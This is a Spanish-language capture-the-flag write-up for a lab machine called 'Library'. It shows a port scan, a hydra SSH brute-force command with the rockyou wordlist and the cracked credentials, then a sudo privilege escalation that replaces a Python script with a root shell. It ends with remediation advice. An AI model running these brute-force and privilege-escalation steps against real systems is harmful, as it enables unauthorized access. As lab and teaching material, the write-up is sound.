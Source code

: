 # Library
Bruteforcing=Disgusting
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
```
## Enum
### HTTP 
Mirando la pagina encontramos al menos 4 usuarios root,www-data,meliodas y Anonymous
#### Robots.txt
```
User-agent: rockyou 
Disallow: /
```
Eso significa que haga bruteforce de creds, **disgusting**

## Exploit
```
hydra -L users.txt -P rockyou.txt ssh://IP 
```
Finalmente
```
[22][ssh] host: 10.10.129.130   login: meliodas   password: iloveyou1
```

## Privesc

```
User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
El archivo esta read protected, pero podemos eliminarlo y crear uno nuevo con el siguiente contenido
```python
import os
os.system('/bin/bash')
```
Y ya seriamos root

# Analisís de la intrusión
### SSH Bruteforcing allowed
El no existir ningún tipo de proteccion anti bruteforce de cara a el ssh nos permitió la entrada incial en la máquina
### Bad Password policie
La política de contraseñas es poco segura ya que se permite a los usuarios usar contraseñas presentes en los diccionarios mas comunes
### Privileged script execution for regular users
El script se ejecuta como root en una carpeta en la cual el usuario tiene permiso para eliminar y crear archivos, aunque no tenga permisos de edicion directos en el archivo siempre puede eliminarlo y crear otro con el mismo nombre de modo que se ejecutaria sin problemas

# Soluciones
### SSH Bruteforcing allowed
La instalación y configuración de un servicio como fail2ban previene la posibilidad de bruteforcear las creds, eliminando esta amenaza
### Privileged script execution for regular users
En caso de ser necesaria la ejecución de este script por parte del usuario, lo ideal seria moverlo a otra ubicación donde el usuario no la pueda eliminar por ejemplo la siguiente configuración
```
 NOPASSWD: /usr/bin/python3 /root/bak.py
 ```
 Permitira ejecutar el backup que se estaba ejecutando sin tener ese problema presente, mas alla de esto siendo un backup de la web del servidor la mejor opcion seria ejecutarlo de manera periodica mediante un cronjob añadido al crontab
 
